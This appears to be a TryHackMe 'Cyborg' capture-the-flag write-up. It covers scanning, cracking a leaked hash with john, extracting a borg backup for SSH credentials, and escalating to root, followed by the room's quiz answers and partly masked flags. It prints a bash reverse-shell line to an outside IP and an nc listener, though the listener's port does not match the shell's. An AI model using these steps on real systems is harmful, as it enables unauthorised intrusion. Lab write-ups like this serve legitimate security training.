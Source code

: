 ##
	TRY HACK ME
	Room= CYBORG	
     IP= 10.10.170.174
##



## 1) Ran nmap, results in the nmap directory....

## 2) Ran Gobuster, results in the gobuster directory


but the suspicious thing is in the gobuster's result
and that is the admin & etc page more suspicious is "etc".

http://IP/etc/squid/

here i got two files -->
	1) passwd
	2) squid.conf

then i copied the passwd form the passwd page and stored it in hash.txt file then "john" that by the command -->

##
	john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

	passwd = squ######

##

and the other file (squid.conf) is not so interesting.
so i moved toward the admin page....
and hover the mouse over the Archive option and clicked on the Download button

and downloaded the archve.tar file, and got a home folder
in that home folder i navigate to the home/field/dev/final_archive

and got a readme file... it's about "borg" documentation 

and then Using borg to extract with the password we found assuming this is a backup of the music_archive which was mentioned in the admin page (http://IP/admin/admin.html) message by the command -->

	borg extract `pwd`::music_archive 

then got another home folder,, but now in this time i got the password of the user alex inside the (home/alex/Documents/note.txt)

## 		S3c#######

## then i used ssh to login as alex via ssh by the command -->
		
		ssh alex@IP 
	passwd = S3c#######




## USER FLAG!!!____

and the simply searched for the user flag by this command -->

	find / -name "user*.txt" -type f 2>/dev/null

* Flags and QNAs are bellow....

## ROOT FLAG!!!____

to get root i searched for what permission does the user (alex) have.

by this command -->

	 sudo -l
			Matching Defaults entries for alex on ubuntu:
    			env_reset, mail_badpass,
    			secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/

			User alex may run the following commands on ubuntu:
    			(ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh

and the most lovely result "backup.sh"

since this is running by sudo that means this file "backup.sh" is being ran by root and being a shell script we can make it react as a reverse-shell
but to do that i checked that what permissions does the file have by the command -->

	ls -la /etc/mp3backups/backup.sh

and then i chenged the permission into writable by the command -->
	chmod +w /etc/mp3backups/backup.sh


and then as usual i edit this file into this -->

	bash -i >& /dev/tcp/10.18.102.171/8080 0>&1

and saved the file.....

then i started a listener in my machine by the command -->
	
	nc -lvnp 8000 

and then i run the backup.sh file in the victim machine by the command -->

sudo /etc/mp3backups/backup.sh


and i got root.......

and simplie i searched for the root flag by this command -->
	
	find / -name "root*.txt" -type f 2>/dev/null


----------------------------------------------------------------------
							
						QUESTIONS & ANSWARES 
----------------------------------------------------------------------

## Scan the machine, how many ports are open? 

`````
2
`````

## What service is running on port 22?

`````
SSH
`````

## What service is running on port 80?

`````
HTTP
`````

## What is the user.txt flag?

`````
flag{1_#############_th3_arch1v3s_saf3}
`````

## What is the root.txt flag?

`````
flag{Than5s_#############0p£_y0u_enJ053d}
`````

